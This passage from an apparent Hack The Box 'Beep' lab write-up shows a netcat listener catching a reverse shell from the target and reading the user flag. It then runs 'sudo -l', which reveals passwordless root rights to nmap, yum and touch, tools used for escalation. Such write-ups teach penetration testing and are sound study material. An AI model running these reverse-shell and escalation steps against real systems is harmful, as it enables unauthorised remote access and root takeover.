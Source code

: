 ![](/assets/images/beep8.png)

A orange square will appear and we will receive a connection on our `nc` listener that we setup beforehand.

```bash
$ sudo rlwrap nc -lvnp 1337       
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.7] 35480
Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 athlon i386 GNU/Linux
 12:47:48 up  2:55,  0 users,  load average: 0.06, 0.02, 0.10
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
sh: no job control in this shell
sh-3.2$ 
```

# user.txt

The user flag is located in the home directory of the `faris` user.

```bash
sh-3.2$  cat /home/fanis/user.txt
fd86XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

Checking the `sudo` rights of the current user, we see that we have a whole list of commands we can run as `root`!

```bash
sh-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
```